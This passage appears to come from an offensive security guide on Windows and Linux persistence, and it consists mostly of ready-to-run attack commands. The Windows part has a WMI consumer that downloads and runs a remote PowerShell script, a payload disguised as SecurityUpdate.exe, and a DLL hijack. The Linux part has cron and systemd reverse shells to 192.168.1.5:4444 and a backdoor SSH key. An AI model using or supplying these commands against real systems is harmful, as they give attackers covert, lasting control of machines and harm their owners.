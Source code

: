 ```bash

# Create WMI event consumer
$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name="ProcessConsumer";
    CommandLineTemplate="powershell.exe -WindowStyle Hidden -c \"IEX(New-Object Net.WebClient).downloadString('http://192.168.1.5/shell.ps1')\""
}

# Bind filter to consumer
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$filter;Consumer=$consumer}

# Startup folder persistence
# Copy payload to startup folder
copy shell.exe "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\SecurityUpdate.exe"

# DLL hijacking persistence
# Place malicious DLL in application directory
copy malicious.dll "C:\Program Files\Application\legitimate.dll"

# Why multiple Windows persistence methods:
# - Different methods survive different defensive actions
# - Registry methods are common but well-monitored
# - Service persistence provides system-level access
# - WMI persistence is advanced and stealthy
# - Scheduled tasks provide flexible execution timing
```

### **Linux Persistence Techniques**

**What Linux persistence involves:** Maintaining access through cron jobs, service installations, SSH keys, and system configuration modifications.

```bash
# Cron-based persistence
# User-level cron job
(crontab -l ; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'") | crontab -

# System-wide cron job (requires root)
echo "*/10 * * * * root /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'" >> /etc/crontab

# SSH key persistence
# Generate and install SSH key
ssh-keygen -t rsa -b 4096 -f /tmp/backdoor_key -N ""
mkdir -p ~/.ssh
cat /tmp/backdoor_key.pub >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys

# Service-based persistence (systemd)
cat > /etc/systemd/system/system-update.service << 'EOF'
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'
Restart=always
RestartSec=60
```